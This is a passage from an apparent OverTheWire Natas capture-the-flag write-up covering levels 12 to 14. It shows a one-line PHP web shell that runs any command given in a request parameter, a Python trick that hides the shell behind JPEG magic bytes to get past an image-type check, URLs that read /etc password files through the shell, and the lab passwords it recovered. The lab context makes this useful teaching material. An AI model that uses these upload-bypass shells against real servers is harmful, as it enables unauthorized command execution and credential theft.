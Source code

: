```php+HTML
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

But the file extension is changed to .jpg from the client side itself. So we can change the extension using burpsuite and the fie will be cosidered as a php file. I uploaded a single line php backdoor

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

and then gave in url `http://natas12.natas.labs.overthewire.org/upload/txgb23buxb.php?cmd=cat%20/etc/natas_webpass/natas13` Which gave me the password

password : **jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

### <a id="13">natas13</a>

Here we have to upload a file but on the server side they also check using `exif_imagetype` function

So we have to bypass that too. I got a simple python script which can make a php that can bypass the function

```python
fh = open('shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>')
fh.close()
```

Then we upload this code and change the extension and we go to the url  `http://natas13.natas.labs.overthewire.org/upload/ija7qpa04t.php?cmd=cat /etc/natas_webpass/natas14` which gave us the password

password : **Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1**

### <a id="14">natas14</a>

Source code : 

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
```